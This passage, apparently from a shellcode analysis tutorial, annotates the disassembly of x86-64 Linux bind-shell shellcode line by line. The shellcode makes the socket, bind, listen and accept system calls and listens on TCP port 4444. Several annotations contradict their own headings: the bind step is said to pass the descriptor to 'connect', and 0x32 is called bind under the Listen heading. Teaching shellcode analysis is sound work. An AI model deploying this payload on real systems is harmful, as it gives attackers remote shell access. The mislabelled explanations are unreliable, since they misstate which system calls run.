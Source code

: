   - This is the system call number for `socket`.
+ `cdq` is used to clear out the `rdx` register 
  - set it to `0x0` aka `NULL`
+ `rdi` is set to `0x2` which is `AF_INET`
+ `rsi` is set to `0x1` which is `SOCK_STREAM`

## Bind System Call
```bash
<shellcode+12>:       xchg   rdi,rax 
```
+ Here we see the socket file descriptor returned from the socket system call, passed to the connect system call.

```bash
<shellcode+14>:       push   rdx
<shellcode+15>:       mov    DWORD PTR [rsp],0x5c110002
<shellcode+22>:       mov    rsi,rsp
<shellcode+25>:       push   0x10
<shellcode+27>:       pop    rdx
<shellcode+28>:       push   0x31
<shellcode+30>:       pop    rax
<shellcode+31>:       syscall

```
+ The dword (4 bytes) of 00's is used for `IPADDR_ANY`
  - `rdx` is `0x0`
  - This means the bind shell will bind to all network interfaces.
+ `0002` is `AF_INET`
+ `5c11` is for TCP Port `4444`
+ `rdx` is equal to the size of the struct. 
  - 16 bytes in decimal, or `0x10` in hex.
+ `0x31` is the system call number for bind.

## Listen System Call
```bash
<shellcode+33>:       push   0x32
<shellcode+35>:       pop    rax
<shellcode+36>:       syscall

```
+ `0x32` is the system call number for bind.
+ `rsi` is for the variable backlog and the value should not really matter.

## Accept System Call
```bash
<shellcode+38>:       xor    rsi,rsi
<shellcode+41>:       push   0x2b
<shellcode+43>:       pop    rax
<shellcode+44>:       syscall
```
+ `rdi` is already set to the socket file descriptor returned from the socket system call.
+ No socket address struct is needed, so `rsi` and `rdx` are set to `0x0`.
